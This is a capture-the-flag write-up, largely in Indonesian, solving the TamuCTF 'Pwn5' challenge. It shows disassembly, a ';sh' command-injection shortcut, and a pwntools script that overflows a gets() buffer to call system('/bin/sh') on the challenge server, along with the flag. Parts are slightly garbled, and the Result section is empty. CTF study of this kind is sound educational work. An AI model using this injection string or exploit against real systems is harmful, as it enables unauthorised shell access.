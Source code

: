 # __TamuCTF__
## _Pwn5_

## Information
**Category:** | **Points**
pwn | 372

**Description**

> nc pwn.tamuctf.com 4325
> Difficulty: medium
> [pwn5](./pwn5)

### Pwn5
#### File
```
pwn5: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=f9690a5a90e54f8336b65636e719feac16798d50, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

#### Run
```
[l0l@l0l Pwn5]$ nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
.
Result of ls .:
flag.txt
pwn5
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
```

#### Solve
Seperti Pwn4, terdapat cara mudah untuk solve soal ini yaitu dengan payload `;sh`. Namun solusi yang sebenarnya adalah dengan ROP.

Maka coba solve dengan cara yang diinginkan. Setelah dibuka di gbd ternyata banyak sekali fungsi di program ini. Langsung saja disassemble fungsi main. Tidak banyak yang menarik, hanya memanggil fungsi laas.
```
   0x0804894d <+17>:    mov    eax,ds:0x80eb4b8
   0x08048952 <+22>:    push   0x0
   0x08048954 <+24>:    push   0x0
   0x08048956 <+26>:    push   0x2
   0x08048958 <+28>:    push   eax
   0x08048959 <+29>:    call   0x804f960 <setvbuf>
   0x0804895e <+34>:    add    esp,0x10
   0x08048961 <+37>:    call   0x80488be <laas>
   0x08048966 <+42>:    jmp    0x8048961 <main+37>
```

Disassemble fungsi `laas`

```
   0x080488f1 <+51>:    add    esp,0x10
   0x080488f4 <+54>:    sub    esp,0xc
   0x080488f7 <+57>:    lea    eax,[ebp-0xd]
   0x080488fa <+60>:    push   eax
   0x080488fb <+61>:    call   0x804f660 <gets>
   0x08048900 <+66>:    add    esp,0x10
   0x08048903 <+69>:    sub    esp,0x8
   0x08048906 <+72>:    push   0x2f
   0x08048908 <+74>:    lea    eax,[ebp-0xd]
   0x0804890b <+77>:    push   eax
   0x0804890c <+78>:    call   0x80482a0
   0x08048911 <+83>:    add    esp,0x10
   0x08048914 <+86>:    test   eax,eax
```

Vulnerability nya masih sama yaitu buffer overflow, hanya saja di sini ternyata programnya `statically linked` jadi kita tidak bisa menggunakan ret2libc. Tapi masih bisa diakali dengan ROP. Tapi `ROPgadget --binary pwn5 --ropchain` tidak bisa jalan, gatau kenapa. Akhirnya ketemu cara lain untuk mencari address system di dalam binary.
```
gdb-peda$ info address system
Symbol "system" is at 0x804ee30 in a file compiled without debugging.
```

Sedangkan untuk mencari string "/bin/sh" kita dapat menggunakan binary ninja lalu lakukan pencarian string "/bin/sh". Hasilnya ditemukan pada address 0x080bc140.

Selanjutnya kita harus mencari tahu berapa padding yang dibutuhkan karena di tengah-tengah program mengacak-acak esp.

```
set follow-fork-mode parent
pattern_create 500
pattern_offset 0x41414341
gdb-peda$ pattern_offset 0x41414341
gttern_offset 0x41414341
```

Jadi padding yang dibutuhkan 17 bytes.

#### Payload
```py
from pwn import *
r = remote('pwn.tamuctf.com', 4325)
context.arch='i386'
system = 0x804ee30
binsh = 0x80bc140
return_addr_system = 'AAAA'	# return address after executing system
payload = cyclic(17)+p32(system) +return_addr_system+ p32(binsh)
r.sendline(payload)
r.interactive()
```

#### Result
```
```

#### Flag
gigem{r37urn_0r13n73d_pr4c71c3}

#### TODO
Kerjakan dengan ROP
